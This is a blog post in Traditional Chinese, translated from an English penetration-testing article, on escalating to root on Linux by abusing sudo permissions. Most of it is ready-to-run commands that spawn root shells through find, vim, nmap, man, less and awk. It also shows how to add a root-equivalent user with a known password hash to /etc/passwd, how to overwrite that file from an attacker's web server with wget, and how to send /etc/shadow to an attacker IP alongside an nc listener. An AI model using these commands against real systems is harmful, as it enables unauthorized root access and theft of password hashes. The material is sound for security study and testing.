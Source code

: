 ```yaml
---
layout: post
title:  "Abusing SUDO (Linux Privilege Escalation)"
subtitle: "Liunx權限提升-濫用Sudo"
author: Mars Cheng
tags: 
- Penetration Testing
- Security Technique
- Linux System
- Translating Articles
---
```

## Overview

> This is Translating Articles which from <http://touhidshaikh.com/blog/?p=790>, if any problem,  If any mistake or suggestion, please let we konw. Thanks.
> 本篇文章翻譯自 <http://touhidshaikh.com/blog/?p=790>，如有任何問題敬請不吝指教。


> 當某些程式/指令的shell有其限制時，我們通常會使用Sudo來提升權限。本文將展現一些方式藉由Sudo來提升權限。但首先，我們要先了解何謂Sudo，再進行進階的利用。

## Index

1. 什麼是SUDO?
2. Sudoer檔案語法
3. 利用SUDO使用者
    * /usr/bin/find
    * /usr/bin/nano
    * /usr/bin/vim
    * /usr/bin/man
    * /usr/bin/awk
    * /usr/bin/less
    * /usr/bin/nmap ( –interactive and –script method)
    * /bin/more
    * /usr/bin/wget
    * /usr/sbin/apache2

### 1. 什麼是SUDO?
Sudo(Substitute User and Do)允許一般使用者被授權執行需特權資源的程式/行為，換句話說，使用者可以使用自己的身份/密碼在root(或其他使用者)下執行命令，具體內容取決於sudoer設定中授與存取權限的內容，該設定可以在/etc/sudoers中找到。

---
### 2. Sudoer檔案語法

```
root ALL=(ALL) ALL
```
說明1:root可以從所有終端中執行，允許所有(任何)使用者，並執行所有（任何）指令
* 第一部分是使用者，第二部分是使用者可以使用sudo指令的終端，第三部分是使用者可以擔任的使用者身份，最後一部分是使用時可以執行的指令


```
touhid ALL= /sbin/poweroff
```
說明2:使用者可以從任何終端以使用者touhid的密碼執行「關閉」指令


```
touhid ALL = (root) NOPASSWD: /usr/bin/find
```
說明3:使用者touhid可以從任何終端，以root身份執行查找指令且無需密碼

---
### 3. 利用SUDO使用者

要利用sudo使用者，必須先找到允許執行的命令

```
sudo -l
```
上述指令顯示允許當前使用者執行的命令


![](https://i.imgur.com/mBNG39n.png)
上述圖片顯示無需密碼便可以root身份執行的指令


以下針對使用sudo達成權限提升的細節進行說明

* 1.**使用Find指令**
```
sudo find /etc/passwd -exec /bin/sh \;
```
或
```
sudo find /bin -name nano -exec /bin/sh \;
```
* 2.**使用Vim指令**
```
sudo vim -c '!sh'
```
* 3.**使用Nmap指令**

舊方法
```
sudo nmap --interactive
nmap> !sh
sh-4.1#
```
<font color=red>注意：nmap --interactive選項無法使用在叫新版本的nmap中</font>

新方法-->不使用--interactive的方法

```
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```
* 4.**使用Man指令**
```
sudo man man
```
然後輸入!sh及按下Enter

* 5.**使用Less/More指令**

```
sudo less /etc/hosts
或
sudo more /etc/hosts
```
然後輸入!sh及按下Enter
* 6.**使用awk指令**
```
 sudo awk 'BEGIN {system("/bin/sh")}'
```
* 7.**使用nano指令**

nano是文字編輯器，可以用來修改passwd文件，並在需要切換用戶之後以root權限加入password文件中的使用者。在/etc/passwd中增加此行可將此用戶添加root權限
```java
touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash
```

```
sudo nano  /etc/passwd
```
切換使用者密碼：test
```
su touhid
```
* 8.**使用wget指令**

這種非常酷的方式需要Web服務器下載文件。 這種方式我從未在任何地方看到過。 

**攻擊者端**
1. 將受害端/etc/passwd文件複製到攻擊者端中
2. 修改文件並將passwd文件增加以下資訊，並保存

```
touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
``` 
3. 將passwd托管至Web伺服器主機

**受害端**

```
sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
```
切換使用者密碼：test
```
su touhid
```
<font color=red>注意：如果想要從Web伺服器取得root的ssh金鑰或shadow檔案等</font>

```
sudo wget --post-file=/etc/shadow 192.168.56.1:8080
```
啟用listener於攻擊者端: nc -lvp 8080


* 9.**使用apache指令**

無法獲得shell與無法編輯系統檔案，但能夠檢視系統檔案
```
sudo apache2 -f /etc/shadow
```

輸出如下：
```
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```
無法獲得shell，但可以嘗試破解Hash。

### Reference

[1] <http://touhidshaikh.com/blog/?p=790>

